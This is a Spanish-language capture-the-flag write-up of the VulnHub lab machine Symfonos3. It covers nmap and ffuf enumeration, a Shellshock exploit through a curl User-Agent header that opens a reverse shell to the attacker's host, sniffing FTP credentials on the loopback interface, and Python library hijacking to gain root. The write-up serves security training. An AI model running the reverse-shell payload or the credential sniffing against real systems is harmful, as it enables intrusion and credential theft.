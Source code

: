 ```yaml
---
layout: single
title: Symfonos3 - VulnHub
excerpt: "Symfonos3, una máquina virtual de Vulnhub, presenta una vulnerabilidad conocida como Shellshock que nos permitió obtener acceso al sistema. Para la escalada de privilegios,  iniciamos como cerberus y nos infiltramos con el usuario 'hades' al interceptar el tráfico de la máquina. Posteriormente, logramos la escalación a root aprovechando un error de permisos en una biblioteca de Python, también conocido como librari hijacking."
date: 2023-11-03
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)


Symfonos3, una máquina virtual de Vulnhub, presenta una vulnerabilidad conocida como Shellshock que nos permitió obtener acceso al sistema. Para la escalada de privilegios,  iniciamos como cerberus y nos infiltramos con el usuario 'hades' al interceptar el tráfico de la máquina. Posteriormente, logramos la escalación a root aprovechando un error de permisos en una biblioteca de Python, también conocido como librari hijacking.

## Enumeracion
Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Wed Nov  1 07:09:13 2023 as: nmap -sCV -p21,22,80 -oN vulnscan.nmap 192.168.56.15
Nmap scan report for 192.168.56.15
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd64727680517ba8c7fdb266fab6980c (RSA)
|   256 74e59a5a4c1690cad8f7c778e75a8681 (ECDSA)
|_  256 3ce40bb9dbbf018ab79c42bccb1e416b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 08:00:27:1D:20:47 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  1 07:09:20 2023 -- 1 IP address (1 host up) scanned in 7.42 seconds
```


## Analisis 

El punto de partida de la página no da ninguna información solo presenta una imagen qué debajo  del código fuente contiene un mensaje, pero  es indiferente.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-mensaje.png)


A continuación realizaremos un ataque de Fuzzing en la parte main de la pagina.

```bash
➜  content ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.15/FUZZ -t 200  -c                  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.15/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

gate                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 19ms]
                        [Status: 200, Size: 241, Words: 24, Lines: 23, Duration: 22ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 19ms]
```

Es recomendable incluir una barra al final durante la fase de fuzzing, ya que en ocasiones esto puede revelar directorios adicionales.

```bash
➜  content ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.15/FUZZ/ -t 200  -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.15/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

icons                   [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 17ms]
cgi-bin                 [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 19ms]
gate                    [Status: 200, Size: 202, Words: 18, Lines: 21, Duration: 10ms]
```

Procedemos a realizar fuzzing en cgi-bin

```bash
➜  content ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.15/cgi-bin/FUZZ -t 200  -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.15/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 26ms]
underworld              [Status: 200, Size: 63, Words: 14, Lines: 2, Duration: 290ms]
```

## Shell- cerberus

Hacktricks nos informa maneras de poder explotar un CGI-BIN el ataque es conocido como shellsocker

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-shellshock.png)

Ejercemos una reverse shell 


```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.56.1/443 0>&1' http://192.168.56.15/cgi-bin/underworld
```

Una vez dentro del sistema procedo a utilizar pspy64. ¿Por qué? Básicamente procedí a realizar una enumeración manual y no logre encontrar nada, y al lanzar linpeas.sh tampoco me arrojo nada interesante.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-trafico.png)

Observamos un proceso de autenticación en FTP en curso. Para aprovechar esta situación, podríamos emplear una herramienta para interceptar todo el tráfico y capturar las contraseñas. En este caso, estamos utilizando la interfaz 'lo'.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-interfaces.png)

Encontramos credenciales interesantes.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-log.png)

En la captura anterior de pspy64, observamos que el usuario root está ejecutando el script ftpclient.py, sin embargo, carecemos de permisos de escritura en dicho script.


```bash
hades@symfonos3:/opt/ftpclient$ ls -la
total 16
drwxr-x--- 2 root hades 4096 Apr  6  2020 .
drwxr-xr-x 3 root root  4096 Jul 20  2019 ..
-rw-r--r-- 1 root hades  262 Apr  6  2020 ftpclient.py
-rw-r--r-- 1 root hades  251 Nov  1 13:46 statuscheck.txt
hades@symfonos3:/opt/ftpclient$ cat ftpclient.py 
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
hades@symfonos3:/opt/ftpclient$ 
```

Iniciamos un análisis de permisos en la única biblioteca que el script expone.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-libreria.png)

Después de obtener los permisos, notamos que el grupo 'gods' tiene permisos de escritura en la biblioteca. Dado que 'hades' forma parte de este grupo, procedemos a identificar la función utilizada por la biblioteca para el inicio de sesión y ejecutamos código malicioso.

![](/assets/images/vulnhub-writeup-symfonos3/symfonos3-codigo.png)


### Shell - root 

Finalmente obtuvimos root.





